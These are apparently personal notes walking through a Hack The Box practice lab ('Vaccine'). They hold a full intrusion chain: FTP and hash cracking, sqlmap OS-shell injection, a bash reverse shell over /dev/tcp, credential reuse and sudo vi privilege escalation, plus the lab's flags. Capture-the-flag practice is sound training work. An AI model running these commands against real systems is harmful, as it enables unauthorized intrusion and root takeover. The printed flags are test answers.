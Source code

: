 
### **Starting Labs**

##### **Section 3:**
###### Vaccine:
		 --website enum--
```	    nmap -sC -sV {ip}
		

		    ftp {ip}
			anonymous/{no pass}
			get backup.zip
			quit

		
		 zip2john backup.zip > hashes

		 gzip -d rockyou.txt.gz

		 john -wordlist=/usr/share/wordlists/rockyou.txt hashes
```
	
```
		john --show hashes
```

			note password was 741852963, it will be in the following format bellow.
			
			back.zip:{passwd}::...
			
			
```
		unzip backup.zip 
			enter password$:741852963
			
```
		unzips files:
		
		 cat index.php
				there is a section that specifys that a password has to equal to something when its md5 encrypted.
					 
				md5(passwd)==="2cb42f8734ea607eefed3b70af13bbd3"
		 
```
		 hashid 2cb42f8734ea607eefed3b70af13bbd3
		
		 echo '2cb42f8734ea607eefed3b70af13bbd3' > hash
		
		hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
```
			
			after decrypting it qwerty789 is our password.
			2cb42f8734ea607eefed3b70af13bbd3:qwerty789

		now that we have the website password we can login through webpage using             these credentials.
		
		user: admin
		password: qwerty789
		
		
		---Establishing foothold via Dashboard search ---
		search bar only useful thing.
		so we use sql map with our cookies which we got using inspect element.
		
		Get sql map and find vulnerabilities:
```
		sqlmap -u 'http://{ip}/dashboard.php?search=' --cookie="PHPSESSID=4t35be7jpviob87fi0crbl04o7"
```
		
		We found that the search bar is vulnerable so we add a os shell to our cmd
		
```
		sqlmap -u 'http://10.129.95.174/dashboard.php?search=any' --cookie="PHPSESSID=4t35be7jpviob87fi0crbl04o7" --os-shell
```

		now we need to find our own  ip for the shell we are trying to use so we open a new bash terminal.
		in new terminal:
```
HOSTNAME -I

Sudo nc -lvnp 1234
```

go back to old terminal:

```
bash -c "bash -i >& /dev/tcp/{your_IP}/{port} 0>&1"
```
after establishing the shell, we enter the following:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

After looking through some directories we find user.txt file in '/var/lib/postgresql/'


			cat user.txt
		
		**>>ec9b13ca4d6229cd5cc1e09980965bf7**
		
that is our user flag which we will need to submit after we are done with the lab.

we continue digging and searching other directories, after going back a few directories we find the /var/www directory which has the website pages. 

we find a few files and after reading a few of them using ```cat ``` we find the following line in "dashboard.php"

```
try {
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres
password=P@s5w0rd!");
}
```

We can see that the postgres password is listed as ``
```P@s5w0rd!```. So we can use this to login via ssh which will give us a more stable shell as opposed to using os-shell and spawning our own bash terminal. 

we can now connect via SSH 

```
ssh postgres@{ip}
```

and then enter the password ``` P@s5w0rd!``` .

after running ```sudo -l``` to get the permissions we have this is the output:

```
postgres@vaccine:/$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf

```

the following line at the end of the output 
```  
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
signifies we have sudo access to run  
```
/bin/vi 
```
on 
```
/etc/postgresql/11/main/pg_hba.conf
```

so to check the file we run the command
```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

after opening the vi file we can type in the following command to set the shell and then run it:
```
:Set shell=/bin/sh

:shell
```
since we ran the shell with sudo privileges we now have root access, we can verify this by typing ```
```
whoami
```
we should get "root" in the response.

![[VqKjp5f.png]]

after verifying we are root, we can look at the directory we are in and try to navigate the the root folder we saw earlier
```
cd root

ls 

cat root.txt
```
after reading the root file we get the root flag:
```
dd6e058e814260bc70e9bbdef2715849
```


Now we have the user and root flag:
User: ec9b13ca4d6229cd5cc1e09980965bf7
Root: dd6e058e814260bc70e9bbdef2715849

-------

###### Unified:

---website enum---
